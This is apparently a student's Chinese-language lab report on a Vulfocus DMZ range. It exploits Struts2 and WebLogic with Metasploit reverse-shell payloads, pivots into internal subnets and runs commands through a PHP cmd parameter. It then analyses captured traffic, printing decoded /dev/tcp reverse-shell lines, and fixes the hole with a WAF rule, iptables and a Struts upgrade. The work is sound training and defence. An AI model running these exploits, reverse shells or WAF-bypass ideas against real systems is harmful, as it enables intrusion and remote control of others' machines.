


# 网安实践实验一

---

## 环境配置：安装docker

通过下述一系列命令实现：

```bash
#将软件源信息写入list文件，使 APT 可以从这个源安装 Docker 相关软件
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | \
sudo tee /etc/apt/sources.list.d/docker.list 

#使用 curl 命令下载 Docker 官方的 GPG 公钥，将GPG 公钥从文本格式转换为二进制格式，用以验证 Docker 软件包的签名，确保软件包来源可信
  curl -fsSL https://download.docker.com/linux/debian/gpg |
  sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

#安装 Docker 及相关组件
  sudo apt update
  sudo apt install -y docker-ce docker-ce-cli containerd.io
```

成功安装后 docker 的版本信息应该如下所示(2025年3月)：


---

## Vulfocus搭建

如果出现了Vuldocus无法登录的情况，出现以下错误：


呢么需要进入 vulfocus 的容器，执行下面的命令启动redis服务：

```bash
redis-service
```


## DMZ环境搭建

在之前成功运行的Vulfocus的基础上进行操作

### 网卡创建

首先根据下面的步骤依次建立两个网卡,网卡的名称任意，子网和网关不和虚拟机网卡重复即可


### DMZ场景编排

由于直接导入场景编排的压缩包失败，所以需要手动去编排一个场景，这里可以参考原先的场景编排压缩包中的内容进行操作，对 `DMZ.zip`解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

可以直接通过对 `raw-content.json`这个文件格式化查看，也可以通过 `jq`和 `grep`查找需要的内容。

首先确定需要的镜像有哪些：

```bash
cat raw-content.json | jq . | grep image_name
```

即查看文件中与 `image_name`相关的内容有哪些：


可知需要安装是三个不同的镜像文件：

```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```

其中第一个镜像存在运行问题，需要替换为:

```
c4pr1c3/vulshare_nginx-php-flag
```

这里有两种安装的方法：

* 第一种是通过 Vulfocus 的 GUI 界面安装，它会直接调用 `docker pull`拉取镜像
* 第二种事直接手动在命令行执行 `docker pull`拉取镜像，然后再通过 Vulfocus 的 GUI 界面将本地镜像添加进取

完成镜像拉取后，可以在下面的页面进行编排，详情如下：


完成场景编排后发布场景并在场景模块中启动场景


### 流量捕获配置

在启动了场景之后，可以通过下面的命令开启对 `struts2-cve_2020_17530`的流量捕获

```bash
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```

该命令在当前路径下创建了一个 `tcpdump`目录，并且将对指定容器监控的流量捕获到目录中

## DMZ 入口靶标

入口靶标页面如下，记录目标 ip 和端口号


进入攻击机，更新并初始化 `metasploit`

```bash
sudo apt install -y metasploit-framework
sudo msfdb init
```

检查数据库连接情况并创建工作区准备攻击：

```bash
db_status
workspace - a vulfoucus
```


由于已经知道了漏洞为 `struts2代码执行漏洞`，所以进行相关搜索搜索：

```bash
search struts2 type:exploit
search S2-059 type:exploit
```

使用 `info`可以指定序号或名称查看详情

```bash
info 0
```

使用 `use`可以使用指定的exp

```bash
use 0
```

使用 `show options`可以查看exp的详细参数配置,使用 `show payloads`可以查看可用 exp payloads：

```bash
show options
show payloads
```


选择一个需要的 `payload`使用并根据参数列表的内容修改靶机和攻击机的参数

```bash
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.131.10   #靶机IP
set RPORT  30947    #靶机目标端口  
set LHOST  192.168.131.6   #攻击者主机IP 
```

检查配置的参数,发现已经得到修改：


执行攻击，如果攻击成功，按照 payload 的内容可以获得靶机的 shell:

```bash
run -j 
```


使用 `sessions`命令查看列表，打开 `shell`执行命令

```bash
sessions -l
sessions -i 2
```


得到flag

## 建立立足点发现靶标2、3、4

`ctrl-z`将 session 放入后台

对要攻击的目标进行扫描：

```bash
db_nmap -p 60990,80,22 192.168.131.10 -A -T4 -n
```


可以看出在扫描前 `hosts`的内容只有一个之前指定的 ip 地址，扫描的结果显示发现了 22,80,60990 均为开放端口

扫描过后再次查看 `hosts`和 `services`情况


发现 `hosts`中的内容得到了补全，并且 `services`中的内容得到了扩充


升级 shell 为 Meterpreter Shell


进入升级后的 shell 并查看当前网络的情况：


发现入口靶机的内部地址为 `192.170.84.3`并且发现有一个新的网段 `192.170.84.0/24`

接下来需要使用到**autoroute**

> MSF 的 autoroute 模块是 MSF 框架中自带的一个路由转发功能，实现过程是MSF框架在已经获取的 Meterpreter Shell 的基础上添加一条去往“内网”的路由，直接使用MSF去访问原本不能直接访问的内网资源.

执行下面的命令建立新的路由并查看建立的结果：

```bash
run autoroute -s 192.170.84.0/24
run autoroute -p
```


退出当前的 session 准备端口扫描：

首先搜索需要的模块，然后选择需要使用的模块

```bash
search portscan
use auxiliary/scanner/portscan/tcp
```


和前面一样，查看需要的参数并进行配置：


```bash
set RHOSTS 192.170.84.2-254 #根据之前的内网网关ip为192.170.84.1推断其他的ip一定是介于2到254
set PORTS 7001 #为了加快扫描速度指定扫描端口为7001，这里也可以不指定，但会慢很多
set THREADS 10 #多线程加快扫描速度
```

使用 `exploit`启动扫描:


新扫描到的 ip 被同步到了 `hosts`与 `services`表中：


然后搜索并使用另外一个 socks_proxy 模块,参数不用做修改


直接启动:


然后在攻击机中另开一个 shell:
先检查下 1080 端口服务开放情况：

```bash
sudo lsof -i tcp:1080 -l -n -P
```


确定端口开放正常后，对下面的配置文件进行编辑，在其最后修改 socks 代理为 `socks5 127.0.0.1 1080 `

```bash
sudo vim /etc/proxychains4.conf
```


然后执行下面的命令对内网进行扫描：

```bash
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```


可以看到扫描到的结果均为 filter (过滤)

下面需要去验证这些断后是否针对能连通：
进入入口机的 shell 当中，执行下面的 `curl`命令获取指定的内网网页内容：

```bash
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.4:7001 -vv
curl http://192.170.84.5:7001 -vv
```


返回的结果都为 404，说明网络层是连通的，只是该网页没有内容罢了
到这里可以确定下面的网络拓扑:


## 攻击内网第一层靶标

确认内网第一层靶标的目标后，和之前对入口靶标攻击一样，这里由于已经知道了具体的漏洞类型，所以可以直接搜索具体的类型进行攻击：

```bash
search cve-2019-2725
use 0
show options
```


修改其中的参数，将 `RHOSTS` 与 `LHOST` 进行修改,使用的 payload 还和入口靶标一样，是 `reverse_bash`（反弹shell），不需要修改


攻破第一层靶标1


剩余的两个靶标用同样的方式获得 shell 攻破，在第一个靶标的基础上仅替换其中的目标地址 `RHOSTS` 即可：

攻破第一层靶标2


攻破第一层靶标3


最后总结获得的四个靶标shell如下：


## 攻击内网第二层靶标

执行下面的命令对之前已经获得的三个第一层靶标shell测试，找出拥有双网卡的那个靶机：

```bash
sessions -c "ifconfig" -i 4,5,6
```


确认是 session id 为 5 的那个靶机

将这个靶机升级后进入其中：


确定第二层靶标的网段：`192.169.85.0/24`


现在暂时切回攻击机，和之前对第一层靶标进行的操作一样，在攻击机中对第二层靶标的入口进行扫描：

```bash
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.3
```


结果和第一层的一样，也被过滤了

对这个网段的其他 ip 扫描：

```bash
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254 | grep open
```


结果显示全被过滤，所以使用 `nmap`扫描得不出具体的第二层目标地址,尝试另一种方法:
回到之前升级的第一层靶机的 shell 中，发现 `wget`这个命令可用，于是可以通过 `wget`,去尝试获取网页的内容，如果获取某一个 ip 的网页成功，说明这个 ip 有开放的端口，就可能有能攻击的地方

于是进行尝试：

```bash
wget http://192.169.85.2
wget http://192.169.85.3
wget http://192.169.85.4
wget http://192.169.85.5
wget http://192.169.85.6
……
```

发现在 ip 为 `192.169.85.2`时获取成功，后面的几个都失败了，于是可以确定该 ip 为第二层的靶标 ip，同时得到下面的网络拓扑结构：


但是这里仅仅只是确认了这个 ip 存在，还没有获取到网页的内容，于是使用 `wget` 将网页信息保存到文件中，并在命令行使用 `cat` 命令打印出文件内容，依次构建下面的两个 payload ：

```bash
wget http://192.169.85.2
wget http://192.169.85.2 -O /tmp/result && cat /tmp/result
```


根据回显的内容可以知道，该页面是一个 `php`文件，并且有一个变量 `cmd`可供传参，而且可以猜测传入的参数会得到执行

于是可以在上面构建的命令的基础上构建下面的最终 payload：

```bash
wget http://192.169.85.2/index.php?cmd="ls /tmp" -O /tmp/result && cat /tmp/result
```

即在请求网页时将参数传入，并将网页的回显内容打印出来，得到 flag


至此，DMZ 的所有靶标都被攻破


## DMZ 入口靶标漏洞利用检测

在进行攻击前，可以通过下面的方式这只抓取docker指定容器的流量包：

```bash
docker ps #查看正在启动的容器列表
container_name="XXXXXX" #将需要抓取流量的容器的ID或名称传入变量 
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump #将docker指定容器抓取的流量包保存到当前路径tcpdump目录的容器子目录中
```

(这里由于第一次实验时抓包没有抓到获取入口靶标的过程，于是进行了第二次补充复现，导致 ip 有所不同，原来的入口 ip 192.169.85.2 现在是 192.169.85.5 ,入口靶标反弹 shell 分析之后沿用之前的拓扑结构的 ip 结构)

对抓取的数据分析，先将所有的 http 的数据包过滤出来查看情况：


发现有几个可以的数据包，通过追踪流进一步分析：



对请求体的内容进行 URL 解码：


代码将下面的内容传递给 `id` 变量

```bash
"bash -c {echo,YmFzaCAtYyAnMDwmMTIzLTtleGVjIDEyMzw+L2Rldi90Y3AvMTkyLjE2OC4xMzEuNi80NDQ0O3NoIDwmMTIzID4mMTIzIDI+JjEyMyc=}|{base64,-d}|bash"
```

很容易发现是 `base64`编码，解码后得到:


```bash
bash -c '0<&123-;exec 123<>/dev/tcp/192.168.131.6/4444;sh <&123 >&123 2>&123'
```

可见创建了一个 TCP 连接到 `192.168.131.6:4444`同时 `sh <&123 >&123 2>&123`将 shell 输入、输出、错误流全部重定向到 TCP 连接，建立反向 shell

在 wireshark 中通过下面的过滤条件可以找到攻击者连接 shell 后执行的命令：

```
ip.src == 192.168.131.6 && tcp.port== 4444
```


## DMZ 网第一层靶标的漏洞利用检测

对抓取的数据包进行分析，通过 `ARP`包的内容可以看出攻击者对该网段进行了扫描，寻找存在的 ip ：


继续通过端点统计可以看出有哪些 ip 参与了这个过程：


通过结果可以看出，下面的几个 ip 出现在了数据包中，并且有两个 ip 的数据流量占比很高：

| IP            | 流量占比 |
| ------------- | -------- |
| 192.170.84.3  | 54.37%   |
| 192.168.131.6 | 39.81%   |
| 192.70.84.2   | 1.94%    |
| 192.70.84.4   | 1.94%    |
| 192.70.84.5   | 1.94%    |

再结合之前已经发现

192.168.131.6 对 192.170.84.3 进行了攻击，使用 反弹shell 获取了 shell ，可以猜测从 192.170.84.3 发出的数据包很可能包含对其他内网 ip 的攻击

对另外的三个 ip 进行分析，通过简单过滤查看与其相关的流量：


发现 192.170.84.3 在不断地发出 `SYN`标志的包给 192.70.84.2 并且每次针对的端口不一样（从1开始不断递增），基本可以确认是针对 192.70.84.2 的端口扫描，并且通过下图可以发现，在扫描到端口 7001 时， 192.70.84.2 不再立刻发出 `RTS` 标志的包，而是发出了 `SYN，ACK` 说明该端口开放，并且已经被攻击者发现


继续分析，发现在端口扫描结束后，192.70.84.3 尝试与 192.70.84.2 的 7001 端口建立连接，并且还发送了 一些 HTTP 包，其中有一个 POST 请求的包十分可疑:


通过追踪该 POST 请求发现下面的内容：


对请求体中的内容进一步解读发现这个代码是一个 SOAP (Simple Object Access Protocol) 请求，并且它包含了一个恶意的反弹 Shell 代码，将其中的核心反弹 shell 部分提取出来后结果如下：

```bash
<void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
        <void index="0"><string>/bin/bash</string></void>
        <void index="1"><string>-c</string></void>
        <void index="2">
            <string>bash -c '0<&206-;exec 206<>/dev/tcp/192.168.131.6/4444;sh <&206 >&206 2>&206'</string>
        </void>
    </array>
    <void method="start"/>
</void>
```

即 192.70.84.2 会尝试连接 192.168.131.6:4444 ，一旦 192.168.131.6 在 4444 端口进行了监听，就能够获取 192.70.84.2 的 shell 实现远程控制

和入口靶标一样，进行过滤后追踪流，查看攻击者执行的命令：


其他的两个 ip 192.70.84.4 、192.70.84.5 与之情况一样，均被扫描并执行了反弹 shell ，被远程控制:


## DMZ 内网第二层靶标的漏洞利用检测

针对第二层内网的抓包需要更换抓取的容器，之前抓的包都是抓取的入口靶标进行的抓包，然而这里与第二层内网靶标的通信可以不经过入口靶标，所以需要对有双网卡的 `weblogic-cve_2019_2725`容器或 `c4pr1c3/vulshare_nginx-php-flag`容器进行抓包(和入口靶标一样，同样导致了 ip 变动，变动为双网卡靶标由 **192.170.84.2** ➜ **192.170.84.4**)

可以正常抓取到包后对抓到的内容分析：
发现有很多192.168.131.6:4444 和 192.170.84.4 的通信


追踪流后得到下面的内容：


发现攻击者使用 `wget`获取网页内容后进一步构造了 payload ，传递变量远程执行了代码，获取了指定路径的内容

## DMZ 入口靶标的漏洞修复，并验证了修复效果

这里采用 WAF 的方式配置反向代理，让前往服务器的流量都经过代理服务器，进行过滤防护

首先执行下面的命令安装需要使用的 WAF ：

```bash
sudo bash -c "$(curl -fsSLk https://waf-ce.chaitin.cn/release/latest/setup.sh)"
```


安装成功后通过提供的链接进入后台


在添加应用模块中添加应用，配置上游服务器


这里配置的上游服务器 ip 是 docker 的网关，而不是 hostonly 的 ip ，是为了在开启防火墙的情况下也能够通过 WAF 访问指定的端口（从 dokcer 内网访问，详情见后面的网络拓扑图）


然后在防护配置中配置过滤规则，和添加应用操作类似


这里配置了一个简单的规则，通过对 POST 包中的 id 变量 进行分析，拦截包含 "bash" 的流量，实现对入口靶标的保护


为了只保留我们想开放的端口，使用 `iptables` 临时将其他的端口封死：

```bash
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 8080 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 9443 -j ACCEPT
iptables -A INPUT -j DROP

iptables -L -v -n --line-numbers #查看防火墙配置情况
```


最后还需检查 docker 的防火墙配置

```bash
sudo iptables -t nat -L DOCKER -v -n --line-numbers
```

删除掉其中 8080 到场景入口端口的映射：


然后回到 web 验证配置的效果，发现正常直接访问已经无法访问入口端口了，只能通过配置好的反向代理通过 8080 端口访问


整个网络拓扑结构大体如下：



下面测试拦截的效果，当禁用防护规则时，通过准备好的脚本进行攻击，发现可以在开启监听的巩固机上连接靶机的 shell ：


而当将防护规则开启时，则不能够实现上述的效果，并且脚本响应表明我们发送的请求被拦截了：


但是这里只是实现了对数据流量的拦截过滤，只要防护规则存在缺陷，通过对敏感命令进行编码还是能够进行绕过，没有从根本上修复漏洞，比如下m面进入容器后查看可用的 shell 会发现除了 bash 之外还有其他可用的 shell ，攻击者只需要替换 bash 为其中任意一个shell同样可以实现反弹 shell 远程命令执行


## DMZ 入口靶标的漏洞修复，并验证了修复效果

修复该漏洞的方案为更新 struts2 至更高的版本，这里选择直接更新到 2.5.33 版本
进入 struts2 的靶标容器：

```bash
docker exec -it 95d18d8a0f9e bash #id号需要根据 docker ps 确认
```

修改 pom.xml ，该文件就在进入的目录下，将其中的 version 标签修改为 2.5.33


保存退出后，执行下面的命令更新依赖：

```bash
mvn clean install
```


更新成功将显示下面的结果：


再次进行之前的测试,关闭防护规则：


发现即使没有 WAF 防护，仍然无法实现反弹 shell ，证明漏洞已被修复

## 参考资料：

[网络安全(2023) 综合实验_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1p3411x7da/?vd_source=6c62cb1cac14ec9c6d9e57e7ba2e13c9)

[网络安全](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

[利用msf自带的route模块穿透目标内网 - Guko&#39;s Blog](https://pingmaoer.github.io/2020/05/09/%E5%88%A9%E7%94%A8msf%E8%87%AA%E5%B8%A6%E7%9A%84route%E6%A8%A1%E5%9D%97%E7%A9%BF%E9%80%8F%E7%9B%AE%E6%A0%87%E5%86%85%E7%BD%91/)

[流量分析-Wireshark -操作手册（不能说最全，只能说更全）_wireshark寻找扫描器-CSDN博客](https://blog.csdn.net/m0_68012373/article/details/129520318)

[数据包取证分析笔记-CSDN博客](https://blog.csdn.net/qq_38626043/article/details/127906609)

[跨越时代的飞跃：Struts 2 升级秘籍——从旧版本无缝迁移到最新版，焕发应用新生！-阿里云开发者社区](https://developer.aliyun.com/article/1602710)
